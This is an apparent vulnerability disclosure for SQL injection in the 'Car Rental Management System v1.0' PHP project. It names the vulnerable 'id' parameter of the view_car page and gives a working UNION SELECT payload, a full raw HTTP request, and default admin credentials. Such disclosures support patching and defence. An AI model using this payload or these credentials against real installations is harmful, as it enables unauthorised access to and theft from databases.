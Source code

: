# Car Rental Management System v1.0 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/car-rental-management-system/

Vulnerability File: /car-rental-management-system/index.php?page=view_car&id=

Vulnerability location: /car-rental-management-system/index.php?page=view_car&id=,id

[+] Payload: /car-rental-management-system/index.php?page=view_car&id=-4%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ // Leak place ---> username

Current database name: car_rental_db

```sql
GET /car-rental-management-system/index.php?page=view_car&id=-4%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=q0aiu0hqk51vrl4kivubc7u18k
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170958961-3ef2a6c6-ae01-452e-b78e-ef8d47730f50.png)

![image](https://user-images.githubusercontent.com/54017627/170959174-86fb8363-84f7-45c1-b3c6-c6490b2ba677.png)
